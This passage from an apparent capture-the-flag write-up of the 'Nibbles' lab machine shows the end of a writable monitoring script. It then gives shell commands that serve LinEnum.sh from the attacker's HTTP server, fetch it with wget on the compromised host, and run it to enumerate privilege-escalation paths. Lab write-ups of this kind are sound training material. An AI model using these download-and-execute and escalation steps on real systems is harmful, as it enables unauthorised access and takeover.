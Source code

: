 ```
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user and writeable.

Let us put this aside for now and pull in [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks.

* First, download the script and then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.

```
-[Wed Feb 14-10:59:37]-[table@parrot]-
-[~]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.75 - - [14/Feb/2024 10:59:58] "GET /LinEnum.sh HTTP/1.1" 200 -
```

On the target machine, download the LinEnum script, give it executable permissions, and execute it:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.14.16:8080/LinEnum.sh
<er/personal/stuff$ wget http://10.10.14.16:8080/LinEnum.sh                  
--2024-02-14 13:59:58--  http://10.10.14.16:8080/LinEnum.sh
Connecting to 10.10.14.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K   282KB/s    in 0.2s    

2024-02-14 13:59:58 (282 KB/s) - 'LinEnum.sh' saved [46631/46631]

nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
LinEnum.sh  monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ./LinEnum.sh
./LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

```